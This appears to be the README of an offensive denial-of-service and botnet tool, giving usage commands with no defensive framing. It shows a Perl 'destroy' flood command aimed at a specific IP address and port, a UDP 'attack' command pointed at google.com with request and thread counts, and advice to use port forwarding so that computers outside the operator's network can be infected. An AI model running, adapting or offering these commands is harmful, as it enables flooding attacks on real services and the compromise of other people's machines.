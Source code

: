 # Commands

$ Destroy 

perl destroy.pl 76.223.105.230 80 65500 50000000000

$ UDP

This command make the DDoS Attack, Example:

attack google.com 1000 [Number of requests] 120 [Threads]

Dont enter http / https, just the host


# How to use Out-Lan

There is a tool called portmap.io which can be used to do portforwading and be able to infect computers that are not on your same network. I recommend you look at it
